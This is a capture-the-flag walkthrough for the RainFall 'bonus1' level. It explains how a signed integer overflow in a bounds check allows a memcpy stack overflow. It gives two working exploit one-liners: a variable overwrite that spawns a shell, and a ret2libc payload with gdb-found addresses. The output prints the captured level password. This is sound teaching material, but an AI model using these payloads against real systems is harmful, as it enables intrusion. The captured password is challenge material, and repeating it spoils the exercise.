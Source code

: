 # Bonus 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    int ret; // Can't use size_t directly because of the if condition optimization
    char buf[40];

    ret = atoi(argv[1]);
    if (ret > 9)
        return 1;

    memcpy(buf, argv[2], (size_t)ret << 2);
    if (ret == 0x574f4c46)
        execl("/bin/sh", "sh", 0);

    return 0;
}
```

Let's focus on the `main` function. It reads input from the command line and then `atoi` converts it to an integer. If the integer is greater than 9, the program exits. Otherwise, it copies the second argument to the `buf` buffer using `memcpy` with a size of `ret << 2` (equivalent to `ret * 4`).  
If we successfully bypass the `ret > 9` check, we can overflow the buffer, which would allow us to write over `ret` and potentially reach the `execl` call or over the return address.

Let's use the following C program to figure out a way to bypass the `ret > 9` check:
```c
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char **av)
{
        printf("%lld vs %d\n", (long long)atoi(av[1]) * 4, atoi(av[1]) * 4);
}
```

Let's compile it and run it with different values:
```bash
❯ gcc -m32 uwu.c

❯ ./a.out -2147483648
-8589934592 vs 0

❯ ./a.out -2147483647
-8589934596 vs 4

❯ ./a.out -2147483637
-8589934548 vs 44
```

As we can see, If we provide values close to `INT_MIN` and multiply them by 4, we get a positive value. This is because of the way signed integers are represented in memory, such as:
```
-2147483648 * 4:
Binary:        10000000000000000000000000000000
Multiply by 4: 00000000000000000000000000000000
The result is 0 due to overflow.

-2147483647 * 4:
Binary:        10000000000000000000000000000001
Multiply by 4: 00000000000000000000000000000100
The result is 4. The overflow causes the sign bit to flip, making the result positive.

-2147483637 * 4:
Binary:        10000000000000000000000000001011
Multiply by 4: 00000000000000000000000000101100
The result is 44. Again, overflow causes the sign bit to flip.
```

Let's use `ltrace` to check our assumptions:
```bash
bonus1@RainFall:~$ ltrace ./bonus1 -2147483637 TEST
[...]
atoi(0xbffff902, 0x8049764, 3, 0x80482fd, 0xb7fd13e4) = 0x8000000b
memcpy(0xbffff704, "TEST", 44) = 0xbffff704
```

As we can see, `atoi` returns `0x8000000b` which is 11 in decimal (if we ignore the 8). Furthermore, `memcpy` copies 44 bytes to the buffer, which means we can write over `ret`.
> We can also provide more bytes than is allocated for the stack, which would allow us to write over the return address. We'll see this in the ret2libc section.

There's different ways to solve this challenge, we'll see two of them. First the intended way with writing over the int and then the ret2libc way.

### Write over the int
As mentionned above, we can write over the `ret` variable with the following:
```bash
number + padding + value of ret

-2147483637 + 40 * A + 0x574f4c46
```

Indeed since `-2147483638` allows us to write 44 bytes to the buffer, we can write 40 bytes of padding and then the value of `ret` so that the `if` condition is satisfied.

Let's try it:
```bash
./bonus1 -2147483637 `python -c 'print "A"*40 + "\x57\x4f\x4c\x46"[::-1]'`
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

Perfect, let's move to the other solution.

### Ret2Libc
Check the [level1's walkthrough](../level1/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0xb7e5ebe0  exit

# /bin/sh
(gdb) info proc mappings
[...]
Start Addr   End Addr       Size     Offset objfile
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

To find our padding, Let's analyze the stack layout of our program:
```bash
(gdb) b *main+127 # Breaking before leave
Breakpoint 1 at 0x80484a3

(gdb) r 42 # Run the program
Starting program: /home/user/bonus1/bonus1 42

Breakpoint 1, 0x080484a3 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff728       0xbffff728
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff728 - 0xbffff6e0 = 48 (72 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x14(%esp),%eax`. Since there is 72 bytes for the stack, our buffer will therefore requiere 52 bytes (72 - 20) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 56 bytes (52 + 4).

Anything written beyond those 56 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

With our padding sorted out, we need a number that will allow us to write 56 bytes to reach the return address and then the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. So a total of 68 bytes (56 + 4 + 4 + 4):
```bash
❯ ./a.out -2147483631
-8589934524 vs 68
```

Alright, let's craft our payload:
```
number + padding + address of system + address of exit + address of "/bin/sh"

-2147483631 + 56 * A  + "\xb7\xe6\xb0\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
./bonus1 -2147483631 `python -c 'print("A"*56 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

We are now bonus2! Let's move on to the next level.
